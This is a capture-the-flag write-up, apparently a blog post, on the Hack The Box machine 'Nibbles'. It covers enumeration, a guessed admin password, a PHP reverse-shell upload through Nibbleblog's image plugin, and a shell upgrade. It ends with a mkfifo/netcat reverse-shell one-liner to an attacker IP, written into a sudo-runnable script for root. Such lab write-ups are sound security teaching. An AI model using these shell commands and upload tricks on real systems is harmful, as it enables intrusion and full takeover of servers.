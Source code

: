 ```yaml
---
title: "[HTB] Nibbles"
author: "Wook Lee"
date: "2024-08-08"
tags: ["Hack The Box"]
---
```


#### enumeration using nmap scan

from the output of nmap scan I learned there were 2 open ports and the one I had to look into was the port 80.
![alt text](image-29.png#center)

<br>

Navigated to the target address on firefox but the website didn't have any juicy info except the plain text saying **_Hello world!_**.
![alt text](image-30.png#center)

<br>

right clicked on the web page and **_viewed the source code_** without any expectation but there was this interesting comment.
![alt text](image-31.png#center)

<br>

navigated to the **_/nibbleblog_** as the comment hinted
![alt text](image-32.png#center)

<br>

#### more information gathering with **_gobuster_**

while on the **_/nibbleblog_** web page, I could not find more useful info so I decided to run a **_gobuster_** on the website to gather more information.
![alt text](image-33.png#center)

<br>

The gobuster output showed many directories but the results were not satisfying. I knew there had to be more. So I ran another **_gobuster_** scan but this time I added the **-x** option to search for specific file extensions.

The **_/admin.php_** was the first result that caught my eye.

![alt text](image-34.png#center)

<br>

**_/nibbleblog/admin.php_**

![alt text](image-35.png#center)

<br>

I didn't have anything for the admin credentials until I found this **_user.xml_** file that's located in the following path:
**_/nibbleblog/content/private/users.xml_**
![alt text](image-36.png#center)

<br>

The title of the nibbleblog was **_nibbles_** so why not try that for the password? and it turned out that it was the password. I was skeptical of doing the guesswork for the password but later I refered to other people's write ups but all of them also did some guessworks to figure out the password. I guess it's an important part of the pentesting.

![alt text](image-37.png#center)

<br>

a screenshot of the admin dashboard page
![alt text](image-38.png#center)

<br>

Under the **/plugins** directory, there was this **_my image_** page where I could upload a file to the server and I definitely knew I could use this for uploading a reverse shell payload as an exploitation.

![alt text](image-39.png#center)

<br>

For the reverse shell payload, I downloaded the popular **_pentestmonkey_**'s php-reverse-shell.
![alt text](image-40.png#center)

<br>

![alt text](image-41.png#center)

<br>

After uploading the payload file I had to manually navigate to the following path to run it on the server.

**_/nibbleblog/content/private/plugins/my_image_**
![alt text](image-1.png#center)

<br>

**_netcat listener_** successfully captured the reverse shell.
![alt text](image-2.png#center)

<br>

got the user flag!

oh I almost forgot. As you could notice from the screenshot below, I upgraded the shell to the **_fully interactive TTY Shell_**.

```shell
#reverse shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z # background

#kali
stty raw -echo; fg
reset

#reverse shell
export SHELL=bash
export TERM=xterm-256color
```

---

![alt text](image-3.png#center)

<br>

**_privilege escalation_**

With the reverse shell, the current user, **nibbler** was not able to access the root directory. So I had to figure a way for privilege escalation. I ran the `sudo -l` command to list the commands I can actually run with the **sudo** and I could run the following

`/home/nibbler/personal/stuff/monitor.sh`

![alt text](image-4.png#center)

<br>

This is the part where I needed some help. I couldn't figure out what it took me to write inside the **monitor.sh** file for privilege escalation so I refered to one of the walkthroughs online.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.15 1235 >/tmp/f' > /home/nibbler/personal/stuff/monitor.sh`

<br>

After modifying the content inside the file, I pop opened another netcat listener with another port, 1235 because the port 1234 was already listening for the original reverse shell.

`sudo /home/nibbler/personal/stuff/monitor.sh`

<br>

**id** command returned that I'm the root user
![alt text](image-5.png#center)

<br>

successfully got the root flag
![alt text](image-6.png#center)

<br>

![alt text](image-7.png#center)
